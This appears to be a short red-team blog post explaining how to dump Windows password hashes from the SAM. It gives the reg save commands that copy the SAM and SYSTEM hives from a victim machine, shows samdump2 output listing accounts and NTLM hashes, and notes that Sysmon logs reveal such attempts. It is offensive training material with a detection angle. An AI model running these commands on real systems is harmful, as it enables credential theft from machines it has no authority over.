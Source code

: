 ```yaml
---
layout: post
title: "2024-06-18-dumping hashes from sam"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-hashes-from-sam/
---
```


---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---

# Dumping Hashes from SAM

## Execution

Dumping the registry hives required for hash extraction:

{% code title="attacker@victim" %}
```erlang
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code title="attacker@local" %}
```erlang
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

@spotheplanet
